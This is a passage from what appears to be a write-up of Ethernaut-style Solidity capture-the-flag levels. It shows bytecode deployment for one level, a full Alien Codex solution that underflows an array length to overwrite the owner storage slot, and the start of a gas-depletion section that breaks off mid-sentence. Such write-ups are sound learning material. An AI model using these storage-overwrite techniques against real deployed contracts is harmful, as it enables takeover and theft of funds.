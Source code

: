 The last line is what we actually submit in the transaction. 
```
>> let bytecode = '0x6080604052600a6011608039600a6080f3602a60805260206080f3'
// The following request will create a new contract. Fetch its address from etherscan
>> await ethereum.request({ method: 'eth_sendTransaction', params: [{ data: bytecode, from: player }]})
```

Now we just need to set the solver
```
await contract.setSolver(<deployed contract address>)
```

And that clears the level!

# Alien Codex
The exploit takes advantage of the way arrays used to work (I can't remember
in which version of Solidity this was patched): the `length` property of an
array could be updated independently of the its contents :O.

We can underflow the codex array's `length` by calling `retract()` when
the array has 0 elements. Then the length of the array will be 2**256-1. This
gives us the ability to overwrite any storage slot we want because the size
of the array covers all possible slots.

We can do the underflow through the console:
```
>> await contract.make_contact()
>> await contract.retract()
```

Now codex.length is `0xFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFF`

Where is the first element of `codex` stored? If we read _Layout of State Variables in Storage_
from the Solidity docs [7] it tells us array elements are stored at the offset `keccak256(p)`,
where `p` is the storage slot of the array. The `codex` array is in slot 2 so the offset is
`array_slot = keccak256(abi.encodePacked(2)) = 0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6`.

The `owner` variable is in slot0. We want to call `revise(i,_content)` such that
1. We cause an overflow and `i + array_slot == 0`
2. `_content` is our EOA address

I'll leave the details of the math as an exercise for the reader ;).

```
>> await contract.revise('35707666377435648211887908874984608119992236509074197713628505308453184860938', <EOA>)
```

And that clears the level!

# Denial
I call this a _gas depletion_ exploit. This contract is vulnerable because the author believes
incorrectly that the line
